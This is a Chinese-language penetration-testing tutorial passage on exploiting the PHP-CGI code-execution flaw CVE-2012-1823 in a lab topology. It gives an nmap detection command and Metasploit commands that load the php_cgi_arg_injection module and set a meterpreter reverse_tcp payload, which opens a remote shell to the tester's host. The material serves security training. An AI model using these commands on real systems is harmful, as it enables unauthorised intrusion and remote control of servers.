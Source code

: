 # 利用代码执行漏洞

当设备易受代码执行攻击时，允许攻击者或渗透测试人员在目标服务器上远程执行代码。此外，渗透测试仪将能够检索存储在目标上的源代码。

要完成此练习，我们将使用以下拓扑：

![](img/739a76ec-d61e-429a-82ac-79a80fadd0aa.png)

要开始利用代码执行漏洞，请执行以下步骤：

1.  我们将尝试发现目标是否易受**CVE-2012-1823**攻击。要发现目标是否易受攻击，请在`nmap`中使用以下命令：

```
nmap -p80 --script http-vuln-cve2012-1823 <target IP address> 
```

Nmap 可能并不总是返回表明目标上存在漏洞的结果。但是，这不应阻止您确定目标是否易受攻击。

2.  接下来，在**Metasploit**中，使用`search`命令找到合适的漏洞利用模块，帮助我们利用目标上的漏洞：

![](img/89a269bf-78d5-495a-93e8-7db7dd151d1e.png)

3.  接下来，使用以下命令使用模块并设置远程目标：

```
use exploit/multi/http/php_cgi_arg_injection set RHOSTS 10.10.10.11
```

4.  此外，以下命令允许您使用适当的有效负载，在利用漏洞和设置本地主机 IP 地址时建立远程 shell：

```
set payload php/meterpreter/reverse_tcp set LHOST 10.10.10.10
```

5.  使用`exploit`命令对目标发起攻击。以下屏幕截图显示该漏洞已在目标上成功利用：

![](img/f85fcc3c-3a78-4c56-892d-c4d03baa8725.png)
